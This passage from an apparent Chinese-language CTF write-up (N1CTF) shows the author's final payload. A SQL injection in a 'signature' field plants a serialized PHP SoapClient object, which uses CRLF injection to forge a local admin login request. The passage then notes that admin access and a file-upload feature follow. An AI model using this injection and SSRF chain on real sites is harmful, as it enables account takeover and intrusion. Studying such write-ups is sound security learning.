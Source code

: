     <img src="/images/posts/n1ctf/47.png" width="50%" />  
</div>
&emsp;&emsp;所以，我的payload就是：
```http
signature=x`,`O:10:"SoapClient":3:{s:3:"uri";s:1:"0";s:8:"location";s:39:"http://127.0.0.1/index.php?action=login";s:11:"_user_agent";S:188:"fake\0D\0ACookie: PHPSESSID=etf9pia6ftpj50eav8jsbp7ta5\0D\0AContent-Type: application/x-www-form-urlencoded\0D\0AContent-Length: 700\0D\0A\0D\0Ausername=admin\26password=nu1ladmin\26code=THYoaQkVdIm739Hppszu\26y=cc";}`) -- -&mood=0
```
<div align="center">
    <img src="/images/posts/n1ctf/49.png" width="50%" />  
</div>
&emsp;&emsp;然后我们在另一个浏览器上就可以以`admin`登陆了，（直接刷新页面即可，不用输入密码），然后可以看到我们已经解锁了`文件上传`功能。
<div align="center">
